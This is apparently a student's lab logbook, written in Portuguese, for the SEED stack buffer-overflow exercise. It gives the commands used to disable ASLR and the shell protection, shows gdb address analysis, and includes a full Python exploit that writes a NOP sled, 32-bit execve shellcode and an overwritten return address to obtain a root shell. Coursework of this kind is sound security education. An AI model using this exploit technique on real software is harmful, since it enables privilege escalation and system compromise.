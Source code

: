 # Trabalho realizado na Semana #5

## Questão 1
### Configuração básica

- Como sugerido executámos os comandos que nos foram sugeridos, de forma a criar um ambiente onde a execução do ataque seja mais fácil.
O primeiro a ser executado, tem como objetivo retirar as contramedidas da alocação de espaço aleatório das posições iniciais dos registos da stack e da heap. Já o segundo, serve para dar _bypass_ às contramedidas de Dash ao ligarmos a nossa shell à outra shell `/bin/zsh`.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0

$ sudo ln -sf /bin/zsh /bin/sh
```


### Tarefa 1 : Getting Familiar with Shellcode

![Task1_Steps](resources/LOGBOOK5/task1.png)

### Tarefa 2: Understanding the Vulnerable Program

- Nesta segunda tarefa, entendemos que o programa apresentado em stack.c é de facto, vulnerável a ataques buffer overflow, uma vez que neste programa a função `bof` pretende copiar através do comando `strcpy`,que não verifica os limites do tamanho do buffer, o argumento `str`, sendo este um array com um máximo de 517 caracteres, para a variável `buffer`, tendo o espaço de 100 caracteres, lido apartir de um ficheiro `badfile`. Caso a váriavel `str` tenha caracteres a mais que `buffer`, ocorre o erro de Segmentation Fault.

- Num momento posterior, assim como pedido, alteramos o valor `L1` do Makefile, para 116 (100+8*G).
 
![Task2_MakefileChanges](resources/LOGBOOK5/task2Makefile.png)

### Tarefa 3: Launching Attack on 32-bit Program (Level 1)

#### Criação badfile

Para esta tarefa, primeiramente, criamos o ficheiro badfile, cujo conteúdo será lido para o buffer, causando o overflow e o acesso à root shell.

![Tarefa 3 create badfile](resources/LOGBOOK5/task3badfile.png)


#### Compilação e GDB

De seguida, executamos `make stack-L1`, de forma a compilar o ficheiro stack.c usando L1 como tamanho do buffer e executamos o gdb deste ficheiro.

![Tarefa 3 Compilação + gdb](resources/LOGBOOK5/task3Compilation.png)

#### Procura de endereços

Recorrendo ao gdb, começamos por criar um breakpoint na função bof de forma a que o programa pare nesta função, visto que é onde está presente o problema de buffer overflow. De seguida, analisamos as posições em memória de `ebp` e do `buffer` e, por fim, calculamos a diferença entre estes, de forma a perceber o quanto distam.

![Tarefa 3 find addresses](resources/LOGBOOK5/task3findaddress.png)

#### Modificação do ficheiro de ataque

```python
#!/usr/bin/python3
import sys

# Shellcode 32-bit
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"   
).encode('latin-1')

# Encher o conteúdo com NOP's
# Salto não necessita de ser preciso, pode ser feito para posições anteriores à da localização exata do código malicioso
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Por o Shellcode algures na Stack
# Como o restantes locais reescritos pelo buffer estarão com o valor da instrução NOP, torna-se mais fácil por o Shellcode no final do payload e apontar o return adress para algures nesse espaço
start = 517 - len(shellcode)                
content[start:start + len(shellcode)] = shellcode


# 0xFFFFCB58 -> posição do $ebp quando debugging
# 200 -> salto para suportar aumento do valor dos registos quando executado normalmente
ret    = 0xFFFFCB58 + 200         

# 124 -> Distância entre buffer e ebp
# 4 -> Tamanho do ebp (return address encontra-se depois)
offset = 124 + 4 

L = 4     # Utilizar 4 para registos de 32-bits e 8 para registos de 64-bit
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Escrever o conteúdo no ficheiro
with open('badfile', 'wb') as f:
  f.write(content)
```

Para a criação do ataque tivemos de pensar em alguns valores, nomeadamente:

- `shellcode`: Para este, usamos o valor previamente mostrado na ficha para um sistema de 32 bits, visto que `L`, determina o tipo de sistema e como tem valor 4, sabemos que estamos perante um sistema de 32 bits.

- `start`: Foi escolhido o valor `517 - len(shellcode)`, de forma a que o código a ser executado, neste caso o shellcode, ficasse inserido no final da payload. Optámos por fazer desta forma uma vez que, como o restante espaço do buffer será preenchido com operadores `NOP`, exceto o return address, independentemente do local para qual este aponta no buffer (considerando que este aponta para uma localização entre o return address e o final da payload) o shellcode seria executado. 

- `ret`: Este valor foi definido, tendo em conta o valor do `ebp` descoberto durante o debugging, ao qual somamos 200, de forma a apontar algures entre o return adress e o final do payload. O valor não é trivial uma vez que a posição na memória verdadeira do `ebp` é superior à de quando o programa é debugged, podiam no entanto ser utilizados outros valores.


- `offset`: Neste caso, o valor escolhido é a diferença entre os espaços de memória do ínicio do buffer e o return address. Como a localização do return address é logo após o `ebp`, bastou adicionar o tamanho deste (4 bytes) ao seu offset do ínicio do buffer (obtido durante o debugging).


Para chegar a este valores recorremos ao livro recomendado, capitulo 4, [Buffer-OverFlow Attack](https://www.handsonsecurity.net/files/chapters/edition3/sample-buffer-overflow.pdf) referido na secção `Seed Books`. 

#### Esquemas

Decidimos criar pequenos esquemas, não muito exatos, representativos da porção da stack afetada, em vários momentos do processo.

---

Programa executado dentro do GDB. Foi neste estado que obtivemos os valores de memória para o `buffer` e o `ebp`

<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    <img src="resources/LOGBOOK5/stackGDB.png" alt="Stack GDB" />
</div>
<br>

---

Programa executado na shell, antes do buffer overflow. 

Como é possível reparar, as posições de memória obtidas anteriormente já não representam a posição real das estruturas.

Foi neste estado que obtivemos os valores de memória para o `buffer` e o `ebp`

<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    <img src="resources/LOGBOOK5/stackNormal.png" alt="Stack normal" />
</div>
<br>

---

Programa executado normalmente, após bufferOverflow.

Após este passo, é possível perceber que regiões de memória se encontram com a instrução `NOP` e para que sítio na memória o return address aponta
<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    <img src="resources/LOGBOOK5/stackafetada.png" alt="Stack afetada" />
</div>

<br>
<br>


#### Execução do Ataque

Após a criação do ficheiro exploit executámo-lo de forma criar os conteúdos dentro do ficheiro badfile. Por fim, corremos o programa vulnerável, `stack-L1`, e conseguimos que uma root shell fosse aberta, comprometendo o sistema.

![Tarefa 3 Acesso root shell](resources/LOGBOOK5/result.png)


## Questão 2


**Buffer inicial**, antes da execução do `strcpy`.
<div style="height:650px; width: 400px; display:block; margin-left:auto; margin-right:auto">
    <img src="resources/LOGBOOK5/bufBefore.png" alt="Buffer normal" />
</div>
<br>



**Buffer após overflow**

<div style="height:650px; width: 400px; display:block; margin-left:auto; margin-right:auto">
    <img src="resources/LOGBOOK5/bufAfter.png" alt="Buffer Alterado" />
</div>

<br>

Podemos verificar que este se encontra preenchido com `NOP` (0x90) e que contém o `return address` assim como o `shellcode` no fim.

![Questao 2 Return Adress no Buffer](resources/LOGBOOK5/returnAdressBuf.png)

![Questao 2 Shellcode no Buffer](resources/LOGBOOK5/shellcode.png)


---

Com o seguinte comando é possível confirmar que o `return address` está de facto a ser escrito na posição de memória correta, exatamente após o `$ebp`

![Questao 2 Return Adress](resources/LOGBOOK5/returnAdress.png)

Podemos verificar que o endereço para onde o `return address` aponta se encontra entre a posição do mesmo e o `shellcode`. O mesmo deve acontecer quando executado na shell, onde os endereços da stack têm tipicamente um valor mais alto.

